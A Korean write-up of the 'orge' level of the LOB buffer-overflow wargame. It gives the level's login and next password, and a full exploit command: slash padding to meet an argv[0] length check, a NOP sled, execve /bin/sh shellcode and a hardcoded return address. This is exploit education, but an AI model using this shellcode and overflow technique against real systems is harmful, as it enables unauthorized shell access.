

# [LOB] orge Write-up


```
login : darkelf
Password : kernel crashed
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.


이번 문제는 argv[0], 즉 실행파일 이름의 길이를 검사한다. 실행할 때 77글자 중 `,`과 `orge`를 제외한 72글자를 `/`로 채우면 된다. 



나머지 풀이과정은 이전 문제와 똑같다. 인자로 쉘코드를 넘겨주고, argv[1]의 시작 주소를 찾아 리턴주소로 넣어주면 된다. core dump를 뜬 상태에서 esp+4가 argv 주소이다.


argv[1]의 주소를 확인해보니 입력해준 A와 리턴주소가 있다.

```
.`python -c 'print "/"*72'`orge `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x9d\xfb\xff\xbf"'`
```
`슬래시(/)`를 72개 넣어주어 argv[0]의 길이를 77로 맞춰 주었다. 그리고 `NOP(19byte)`과 `쉘코드(25byte)`로 SFP까지 44byte 채워 주었고, 그 뒤인 RET을 `argv[1]의 시작 주소`로 채워 주었다.


비밀번호는 `timewalker` 이다.